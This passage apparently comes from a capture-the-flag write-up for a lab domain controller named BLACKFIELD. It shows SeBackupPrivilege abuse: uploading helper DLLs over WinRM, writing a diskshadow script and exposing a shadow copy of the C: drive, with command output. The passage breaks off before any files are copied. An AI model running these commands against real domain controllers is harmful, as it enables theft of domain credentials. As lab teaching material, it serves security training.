First, we have to import these PS modules for copying files later: https://github.com/giuliano108/SeBackupPrivilege/tree/master/SeBackupPrivilegeCmdLets/bin/Debug

Upload the following:

```bash
upload SeBackupPrivilegeUtils.dll

upload SeBackupPrivilegeCmdLets.dll
```

Now import both modules:

```bash
Import-Module .\SeBackupPrivilegeUtils.dll
Import-Module .\SeBackupPrivilegeCmdLets.dll
```

Now let’s use diskshadow utility. First create our script, since the script needs to be in a very specific format, **UTF-16LE with BOM,** we need to do this on our winrm sessoin:

```bash
Set-Content -Path script.txt -Value "SET METADATA C:\Windows\Temp\meta.cab"
Add-Content -Path script.txt -Value "set context clientaccessible"
Add-Content -Path script.txt -Value "set context persistent"
Add-Content -Path script.txt -Value "begin backup"
Add-Content -Path script.txt -Value "add volume C: alias cdrive"
Add-Content -Path script.txt -Value "create"
Add-Content -Path script.txt -Value "expose %cdrive% E:"
Add-Content -Path script.txt -Value "end backup"
Add-Content -Path script.txt -Value "exit"
```

Now let’s execute it:

```bash
diskshadow /s script.txt

Microsoft DiskShadow version 1.0
Copyright (C) 2013 Microsoft Corporation
On computer:  DC01,  10/16/2025 5:16:19 PM

-> SET METADATA C:\Windows\Temp\meta.cab
-> set context clientaccessible
-> set context persistent
-> begin backup
-> add volume C: alias cdrive
-> create
Alias cdrive for shadow ID {c8e699ee-5754-47d2-8958-5b6c4cd9288d} set as environment variable.
Alias VSS_SHADOW_SET for shadow set ID {37473471-7399-4f49-b63a-030747186ac1} set as environment variable.

Querying all shadow copies with the shadow copy set ID {37473471-7399-4f49-b63a-030747186ac1}

        * Shadow copy ID = {c8e699ee-5754-47d2-8958-5b6c4cd9288d}               %cdrive%
                - Shadow copy set: {37473471-7399-4f49-b63a-030747186ac1}       %VSS_SHADOW_SET%
                - Original count of shadow copies = 1
                - Original volume name: \\?\Volume{6cd5140b-0000-0000-0000-602200000000}\ [C:\]
                - Creation time: 10/16/2025 5:16:33 PM
                - Shadow copy device name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1
                - Originating machine: DC01.BLACKFIELD.local
                - Service machine: DC01.BLACKFIELD.local
                - Not exposed
                - Provider ID: {b5946137-7b9f-4925-af80-51abd60b20d5}
                - Attributes:  No_Auto_Release Persistent Differential

Number of shadow copies listed: 1
-> expose %cdrive% E:
-> %cdrive% = {c8e699ee-5754-47d2-8958-5b6c4cd9288d}
```